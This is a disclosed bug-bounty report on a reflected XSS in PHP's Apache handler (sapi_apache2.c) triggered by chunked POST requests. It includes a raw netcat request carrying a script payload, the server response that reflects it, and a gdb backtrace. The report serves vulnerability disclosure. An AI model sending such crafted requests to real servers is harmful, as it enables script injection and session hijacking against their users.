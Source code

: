 # Improper handling of Chunked data request in sapi_apache2.c leads to Reflected XSS

## Report Details
- **Report ID**: 409986
- **URL**: https://hackerone.com/reports/409986
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-09-15T04:40:29.149Z
- **Disclosed**: 2018-10-02T06:16:06.703Z

## Reporter
- **Username**: cymtrick
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Hey,
Chunked requests can trigger xss and  html injection at any end point because the APR_BRIGADE_INSERT_TAIL(brigade, bucket) is getting destroyed by other handlers.
Affected versions: Any
OS: Any
https://bugs.php.net/bug.php?id=76

````
Prashanths-MacBook-Pro:~ prashanthvarma$ nc localhost 80
POST /lol.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:61.0) Gecko/20100101 Firefox/61.0
Accept-Language: en-US,en;q=0.5
Content-Type: application/json
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Transfer-Encoding: chunked
Content-Length: 25

<script>alert(1)</script>HTTP/1.1 400 Bad Request
Date: Mon, 09 Jul 2018 06:08:22 GMT
Server: Apache/2.4.33 (Unix) PHP/7.1.17
Content-Length: 226
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
</body></html>
 <script>alert(1)</script>
````
````
#1  0x00007f511550494a in apr_socket_sendv (sock=sock@entry=0x7f5115c230a0, vec=vec@entry=0x7fffa5bf4f80, nvec=nvec@entry=3,
    len=len@entry=0x7fffa5bf4ee0) at ./network_io/unix/sendrecv.c:212
#2  0x0000557484512389 in writev_nonblocking (s=s@entry=0x7f5115c230a0, vec=0x7fffa5bf4f80, nvec=3, bb=0x7f5115c23910,
    cumulative_bytes_written=0x7f5115c23848, c=0x7f5115c23290) at core_filters.c:787
#3  0x0000557484512684 in send_brigade_nonblocking (s=s@entry=0x7f5115c230a0, bb=bb@entry=0x7f5115c23910,
    bytes_written=bytes_written@entry=0x7f5115c23848, c=c@entry=0x7f5115c23290) at core_filters.c:704
#4  0x00005574845133c1 in send_brigade_blocking (c=0x7f5115c23290, bytes_written=0x7f5115c23848, bb=0x7f5115c23910, s=0x7f5115c230a0)
    at core_filters.c:733
#5  ap_core_output_filter (f=0x7f5115c236e8, new_bb=0x7f5115c23910) at core_filters.c:542
#6  0x000055748452ff61 in ap_process_request (r=r@entry=0x7f5115c050a0) at http_request.c:477

(gdb) p vec[2]
$4 = {iov_base = 0x7f5115c1b17b, iov_len = 27}
(gdb) p (char *)0x7f5115c1b17b
$5 = 0x7f5115c1b17b "<script>alert(1)</script>\r\n"
````
Made public on [13 sep 2018](https://bugs.php.net/bug.php?id=76582)

## Impact

XSS, session hijacking, HTML injection, information disclosure.

## Attachments
No attachments

